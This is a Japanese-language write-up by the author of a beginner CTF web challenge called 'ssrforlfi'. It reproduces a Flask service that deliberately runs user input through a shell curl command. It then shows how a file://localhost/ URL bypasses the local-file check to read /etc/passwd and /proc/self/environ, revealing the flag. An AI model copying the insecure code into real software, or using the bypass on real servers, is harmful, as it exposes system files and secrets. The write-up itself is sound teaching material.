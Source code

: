 # ssrforlfi

## 問題文
<!-- TODO:問題文、配布ファイル追加 -->

## 難易度
**easy**  

## 作問にあたって
問題文にある通り、SSRF、LFI、RCEといった脆弱性を取捨選択するbeginner問題として作りました。  
調べる要素があるとのことでeasyに格上げになりました。  
ググると解けます。  

## 解法
アクセスするとクエリパラメータ`?url=`で、指定したURLを閲覧できるサービスのようだ。  
<!-- TODO:ドメイン変更 -->
```bash
$ curl 'http://localhost:4989/'
Welcome to Website Viewer.<br><code>?url=http://example.com/</code>
```
試しに`http://example.com`を指定してみる。  
<!-- TODO:ドメイン変更 -->
```bash
$ curl 'http://localhost:4989/?url=http://example.com'
<!doctype html>
<html>
<head>
    <title>Example Domain</title>
~~~
```
取得出来ているようだ。  
ソースが配布されているため見ると、以下の通りであった。  
```python
import os
import re
import subprocess
from flask import Flask, request

app = Flask(__name__)


@app.route("/")
def ssrforlfi():
    url = request.args.get("url")
    if not url:
        return "Welcome to Website Viewer.<br><code>?url=http://example.com/</code>"

    # Allow only a-z, ", (, ), ., /, :, ;, <, >, @, |
    if not re.match('^[a-z"()./:;<>@|]*$', url):
        return "Invalid URL ;("

    # SSRF & LFI protection
    if url.startswith("http://") or url.startswith("https://"):
        if "localhost" in url:
            return "Detected SSRF ;("
    elif url.startswith("file://"):
        path = url[7:]
        if os.path.exists(path) or ".." in path:
            return "Detected LFI ;("
    else:
        # Block other schemes
        return "Invalid Scheme ;("

    try:
        # RCE ?
        proc = subprocess.run(
            f"curl '{url}'",
            capture_output=True,
            shell=True,
            text=True,
            timeout=1,
        )
    except subprocess.TimeoutExpired:
        return "Timeout ;("
    if proc.returncode != 0:
        return "Error ;("
    return proc.stdout


if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=4989)
```
クエリに指定するURLには`^[a-z"()./:;<>@|]*$`にマッチする文字のみが利用できる。  
さらにSSRFとLFIの防止として、`http://`や`https://`では`localhost`へのアクセス禁止、`file://`では`os.path.exists(path)`で存在するファイルへのアクセス禁止が行われている。  
その後に`subprocess.run`にURLが渡り、curlされている。  
この箇所でのOSコマンドインジェクションも怪しい。  
さらに、配布ファイルからフラグは環境変数にあることがわかる。  
つまり`/proc/self/environ`を読み取ることができればゴールとなる。  
RCEはクエリに指定できる文字の制限があるため厳しく、SSRFでファイルシステムにアクセスすることは難易度が高い。  
LFIでファイルを読み出す方針が最も簡単そうだ。  
そのためには`os.path.exists(path)`をバイパスする必要がある。  
Pythonでファイルが存在しないと判定され、curlでファイルが読み取れるパスの記法はないだろうか？
「file scheme」のようにGoogle検索し、[RFC 8089](https://datatracker.ietf.org/doc/html/rfc8089)などを読むと`file://hostname/path/to/file`でもアクセスできることがわかる(Wikipediaでもよい笑)。  
以下のように試してみる。  
```bash
$ curl 'file://localhost/etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
~~~
```
ファイルが読み取れた。  
Pythonでは`file://`が取り除かれているので、`localhost/etc/passwd`など存在するはずもない。  
この方式で`file://localhost/proc/self/environ`を読み取ればよい。  
<!-- TODO:ドメイン変更、結果変更 -->
```bash
$ curl 'http://localhost:4989/?url=file://localhost/proc/self/environ' -o -
UWSGI_ORIGINAL_PROC_NAME=uwsgiHOSTNAME=0e5a8f59c51cHOME=/home/ssrforlfiPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binLANG=C.UTF-8DEBIAN_FRONTEND=noninteractivePWD=/var/wwwTZ=Asia/TokyoUWSGI_RELOADS=0FLAG=ctf4b{1_7h1nk_bl0ck3d_b07h_55rf_4nd_lf1}
```
flagが得られた。  

## ctf4b{1_7h1nk_bl0ck3d_b07h_55rf_4nd_lf1}